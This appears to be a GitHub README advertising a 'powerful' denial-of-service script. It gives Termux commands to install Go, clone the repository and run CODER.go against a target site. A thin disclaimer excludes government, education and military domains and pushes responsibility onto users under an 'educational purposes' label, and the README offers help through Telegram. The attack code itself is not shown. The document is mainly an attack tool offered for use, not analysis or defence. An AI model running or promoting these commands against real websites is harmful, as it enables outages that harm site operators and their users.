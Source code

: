# DOS_SCRIPT
POWERFULL DOS SCRIPT 🔥❣️ 

Termux Command :- 
```shell script
pkg install golang

git clone https://github.com/TCDDOS/DOS_SCRIPT.git
cd DOS_SCRIPT

go run CODER.go -site www.target.com
```

# WARNING:
```sh
Do not attack government pages (.gov/.gob), educational pages (.edu) or the United States Department of Defense (.mil), 
the creator is not responsible for the damage caused by the attacks. 
remember: you are responsible for the attacks since this tool was created for educational purposes
```

If your Need Any Help So You Can Dm Me In Telegram 
Telegram Username :- ``` @NGAMERxCODER ```
